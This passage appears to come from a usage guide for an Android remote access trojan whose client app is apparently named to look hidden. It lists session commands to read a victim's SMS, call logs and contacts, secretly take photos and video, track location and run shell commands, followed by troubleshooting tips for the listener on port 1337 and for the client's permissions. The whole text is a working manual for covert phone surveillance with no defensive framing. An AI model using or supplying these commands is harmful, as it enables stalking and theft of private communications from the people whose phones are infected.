 ### Communication Access
```bash
Session[1]> sms_read 50        # Recent SMS
Session[1]> call_log 100       # Recent calls
Session[1]> contacts 200       # Contact list
```

### Surveillance
```bash
Session[1]> camera_photo       # Take photo
Session[1]> camera_video_start 0:120  # Record 2 minutes
Session[1]> location_start     # Track location
```

### System Control
```bash
Session[1]> shell_exec whoami
Session[1]> shell_exec ps aux | grep -i camera
Session[1]> shell_exec netstat -an
Session[1]> shell_exec cat /proc/version
```

## 🔍 Troubleshooting Quick Fixes

### Connection Issues
```bash
# Check if server is running
netstat -an | grep 1337

# Check if client is connected
RAT> sessions

# Restart client
adb shell am force-stop com.hidden.client_normad
adb shell am start -n com.hidden.client_normad/.MainActivity
```

### Permission Issues
```bash
# Check what permissions are denied
Session[1]> sms_read
# If error: Grant SMS permissions in Android settings

Session[1]> camera_photo
# If error: Grant camera permissions in Android settings

Session[1]> location_get
# If error: Grant location permissions and enable GPS
```

### Command Not Working
```bash
# Test basic connectivity
Session[1]> ping

# Check if session is still active
RAT> sessions

# Try simpler command first
Session[1]> shell_exec echo "test"
```
